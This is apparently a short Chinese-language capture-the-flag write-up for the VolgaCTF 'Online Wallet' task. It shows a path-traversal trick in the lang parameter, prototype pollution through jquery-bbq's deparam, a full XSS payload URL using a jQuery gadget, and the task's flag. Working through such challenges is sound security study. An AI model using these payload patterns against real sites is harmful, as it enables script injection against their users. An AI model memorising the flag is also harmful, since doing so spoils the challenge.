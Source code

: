 # Online Wallet (Part 2)

`lang` 會影響引用的 js file:

`https://wallet.volgactf-task.ru/wallet?lang=meow/../a`

=>

`<script src="https://volgactf-wallet.s3-us-west-1.amazonaws.com/locale_meow/../a.js"></script>`


題目 s3 bucket 可以 list 檔案，可以看到底下有

https://volgactf-wallet.s3-us-west-1.amazonaws.com/deparam.js

追了一下，發現 jquery-bbq 用到的東西:

https://github.com/cowboy/jquery-bbq/blob/master/jquery.ba-bbq.js#L466

接著發現 prototype pollution:

`https://wallet.volgactf-task.ru/wallet?lang=/../deparam&a=c&a[__proto__][__proto__][test]=test`

根據這裡的 gadget: https://github.com/BlackFan/client-side-prototype-pollution/blob/master/gadgets/jquery.md

可以尻出 XSS:

`https://wallet.volgactf-task.ru/wallet?lang=/../deparam&a=c&a[__proto__][__proto__][div][0]=1&a[__proto__][__proto__][div][1]=%3Cimg/src/onerror%3dalert(1)%3E&a[__proto__][__proto__][div][2]=1`

但必須將滑鼠移到 Deposit 才會觸發

很容易想到用 `#deposidButton` 來讓他 focus 上去，但太快 focus 也不會觸發，要停個一秒之類的 XD

`VolgaCTF{6c1525cf575f725ceab8823702eaabd8}`
